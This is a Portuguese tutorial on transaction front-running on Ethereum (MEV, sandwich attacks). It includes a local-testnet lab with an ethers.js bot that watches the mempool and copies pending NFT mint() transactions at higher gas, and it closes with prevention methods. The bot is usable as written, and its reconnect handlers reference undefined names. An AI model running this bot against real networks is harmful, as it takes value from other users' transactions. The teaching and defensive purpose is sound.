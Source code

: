 # S11. Front-running de Transações

Recentemente, tenho revisado meus conhecimentos em solidity para consolidar os detalhes e também escrever um "Guia Simplificado de Solidity" para iniciantes (os especialistas em programação podem procurar outros tutoriais), com atualizações semanais de 1 a 3 lições.

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science) | [@WTFAcademy_](https://twitter.com/WTFAcademy_)

Comunidade: [Discord](https://discord.gg/5akcruXrsk) | [Grupo do WeChat](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link) | [Site oficial wtf.academy](https://wtf.academy)

Todo o código e tutoriais são de código aberto no GitHub: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

---

Nesta lição, vamos falar sobre o front-running de contratos inteligentes. Estima-se que arbitradores em Ethereum lucraram $1.2 bilhão através de ataques "sandwich" [fonte](https://dune.com/chorus_one/ethereum-mev-data).

## Front-running

### Front-running tradicional
O front-running surgiu inicialmente nos mercados financeiros tradicionais como uma competição puramente baseada no interesse pessoal. Nos mercados financeiros, a discrepância de informações deu origem a intermediários financeiros que podiam lucrar ao saberem primeiro de certas informações do setor e reagirem rapidamente. Esses ataques principalmente ocorrem em negociações de ações e em registros de domínios.

Em setembro de 2021, Nate Chastain, diretor de produto da OpenSea, foi descoberto lucrando ao comprar antecipadamente NFTs que seriam exibidos na página inicial da OpenSea.
Ele usava informações privilegiadas para obter uma vantagem desleal, sabendo quais NFTs a OpenSea promoveria na página inicial, ele comprava antes da exibição na página inicial para depois vendê-los quando os NFTs fossem para a página inicial. No entanto, uma pessoa conseguiu combinar o timestamp da transação do NFT com uma promoção suspeita de NFT na página inicial da OpenSea e descobriu essa atividade ilegal, levando Nate a ser processado.

Outro exemplo de front-running tradicional é quando há insider trading em tokens antes de serem listados em exchanges conhecidas como Binance e Coinbase. Após o anúncio de listagem, o preço do token tende a subir significativamente, e é nesse momento que os front-runners vendem para lucrar.

### Front-running em Blockchain

Front-running em blockchain refere-se a pesquisadores ou mineradores que inserem suas transações antes de outras, com o objetivo de capturar valor. Em blockchain, os mineradores têm a capacidade de aumentar o `gas` ou utilizar outros métodos para colocarem suas transações antes das demais e lucrarem com isso. No blockchain da Ethereum, o `MEV` mede esses lucros.

Geralmente, a maioria das transações de usuários são reunidas na Mempool antes de serem incluídas em um bloco na blockchain Ethereum. Os mineradores procuram priorizar transações com taxas mais altas para maximizarem seus lucros. Além disso, alguns robôs de `MEV` monitoram a Mempool em busca de transações lucrativas. Por exemplo, uma transação de troca (`swap`) em uma exchange descentralizada com um alto valor de deslizamento pode ser alvo de um ataque "sandwich": ajustando o `gas`, o negociante coloca uma ordem de compra antes e uma ordem de venda depois, lucrando com a diferença. Isso é semelhante à manipulação do preço de mercado.

![](./img/S11-1.png)

## Prática de Front-running

Se você dominar o front-running, será considerado um cientista do blockchain de nível iniciante. A seguir, vamos praticar um front-running ao uma transação de mint de um NFT. As ferramentas que utilizaremos são:
- A ferramenta `anvil` da `Foundry` para criar uma blockchain de teste local, certifique-se de instalar [foundry](https://book.getfoundry.sh/getting-started/installation) previamente.
- O `Remix` para implantação e mint do contrato NFT.
- Um script `etherjs` para escutar a Mempool e realizar o front-running.

**1. Inicializar uma blockchain de teste local com a Foundry:** Após ter instalado o `foundry`, na linha de comando, digite `anvil --chain-id 1234 -b 10` para criar uma blockchain de teste local, com chain-id 1234 e produzindo um bloco a cada 10 segundos. Após a inicialização bem sucedida, serão exibidos alguns endereços e chaves privadas de teste, cada conta com 10000 ETH. Você pode utilizá-las para testar.

**2. Conectar o Remix à blockchain de teste:** Acesse a página de implantação do Remix e no menu suspenso `Environment`, selecione `Foundry Provider` para conectar o Remix à blockchain de teste.

**3. Implante o contrato NFT:** No Remix, implante um contrato NFT de `freemint` (mint grátis). Esse contrato possui uma função `mint()` que permite o mint grátis de NFTs.

```solidity
// SPDX-License-Identifier: MIT
// By 0xAA
pragma solidity ^0.8.4;
import "@openzeppelin/contracts/token/ERC721/ERC721.sol";

// Tentaremos fazer um front-run de uma transação de mint gratuita
contract FreeMint is ERC721 {
    uint256 public totalSupply;

    // Construtor, inicializa o nome e símbolo da coleção de NFTs
    constructor() ERC721("Free Mint NFT", "FreeMint"){}

    // Função de mint
    function mint() external {
        _mint(msg.sender, totalSupply); // mint
        totalSupply++;
    }
}
```

**4. Implante o script de front-running ethers.js:** Em resumo, o script `frontrun.js` escuta as transações pendentes na Mempool da blockchain de teste, filtra as transações que chamam a função `mint()` e, em seguida, replica e aumenta o `gas` para realizar o front-running. Se você não estiver familiarizado com `ether.js`, pode ler o [Guia Simplificado de Ethers da WTF](https://github.com/WTFAcademy/WTF-Ethers).

```js
// provider.on("pending", listener)
import { ethers, utils } from "ethers";

// 1. Criar o provider
var url = "http://127.0.0.1:8545";
const provider = new ethers.providers.WebSocketProvider(url);
let network = provider.getNetwork()
network.then(res => console.log(`[${(new Date).toLocaleTimeString()}] Conectado ao chain ID ${res.chainId}`));

// 2. Criar um objeto de interface para decodificar os detalhes da transação.
const iface = new utils.Interface([
    "function mint() external",
])

// 3. Criar uma carteira para enviar transações de front-running
const privateKey = '0x5de4111afa1a4b94908f83103eb1f1706367c2e68ca870fc3fb9a804cdab365a'
const wallet = new ethers.Wallet(privateKey, provider)

const main = async () => {
    // 4. Escutar as transações pendentes do mint, obter os detalhes da transação e decodificar.
    console.log("\n4. Escutar transações pendentes, obter o txHash e mostrar os detalhes da transação.")
    provider.on("pending", async (txHash) => {
        if (txHash) {
            // Obter detalhes da tx
            let tx = await provider.getTransaction(txHash);
            if (tx) {
                // Filtrar os dados da transação pendente
                if (tx.data.indexOf(iface.getSighash("mint")) !== -1 && tx.from != wallet.address ) {
                    // Mostrar o txHash
                    console.log(`\n[${(new Date).toLocaleTimeString()}] Escutando transação pendente: ${txHash} \r`);

                    // Mostrar os detalhes da transação decodificados
                    let parsedTx = iface.parseTransaction(tx)
                    console.log("Detalhes decodificados da transação pendente:")
                    console.log(parsedTx);
                    // Decodificar os dados da transação
                    console.log("Transação bruta")
                    console.log(tx);

                    // Construir a tx de front-running
                    const txFrontrun = {
                        to: tx.to,
                        value: tx.value,
                        maxPriorityFeePerGas: tx.maxPriorityFeePerGas * 1.2,
                        maxFeePerGas: tx.maxFeePerGas * 1.2,
                        gasLimit: tx.gasLimit * 2,
                        data: tx.data
                    }
                    // Enviar a transação de front-running
                    var txResponse = await wallet.sendTransaction(txFrontrun)
                    console.log(`Realizando front-running da transação`)
                    await txResponse.wait()
                    console.log(`Transação de front-running bem-sucedida`)                
                }
            }
        }
    });

    provider._websocket.on("error", async () => {
        console.log(`Não foi possível conectar a ${ep.subdomain} Tente novamente em 3s...`);
        setTimeout(init, 3000);
      });

    provider._websocket.on("close", async (code) => {
        console.log(
            `Conexão perdida com o código ${code}! Tentando reconectar em 3s...`
        );
        provider._websocket.terminate();
        setTimeout(init, 3000);
    });    
};

main()
```

**5. Chamar a função `mint()`:** Na página de implantação do Remix, chame a função `mint()` do contrato Freemint para realizar o mint do NFT.

**6. O script detecta a transação e realiza o front-running:** No terminal, você verá que o script `frontrun.js` conseguiu detectar a transação e realizar o front-running com sucesso. Se você consultar a função `ownerOf()` do contrato NFT e verificar o tokenID 0, verá que o detentor é o endereço da carteira usada pelo script de front-running, confirmando o sucesso do front-running!.

![](./img/S11-4.png)

## Métodos de Prevenção

O front-running é um problema comum em blockchains públicas como Ethereum. Não podemos eliminá-lo, mas podemos reduzir os lucros do front-running ao minimizar a importância da ordem e do tempo das transações:

- Utilize um esquema de precompromisso (commit-reveal scheme).
- Utilize dark pools, onde as transações dos usuários não entram na Mempool pública, indo direto para os mineradores. Por exemplo, flashbots e TaiChi.

## Conclusão

Nesta lição, abordamos o conceito de front-running em Ethereum, uma prática também conhecida como arbitragem de informações. Esse tipo de ataque, originado no mercado financeiro tradicional, é mais fácil de ser realizado em blockchains devido à transparência das informações. Realizamos um exemplo de front-running no tempo: front-runnar uma transação de mint de um NFT. Quando transações semelhantes forem necessárias, é melhor adotar medidas como pools ocultos ou leilões em lote para evitar esse tipo de ataque. O front-running é um problema comum em blockchains públicas como Ethereum, mas podemos reduzir os lucros dos front-runners ao minimizar a importância da ordem e do tempo das transações.

<!-- This file was translated using AI by repo_ai_translate. For more information, visit https://github.com/marcelojsilva/repo_ai_translate -->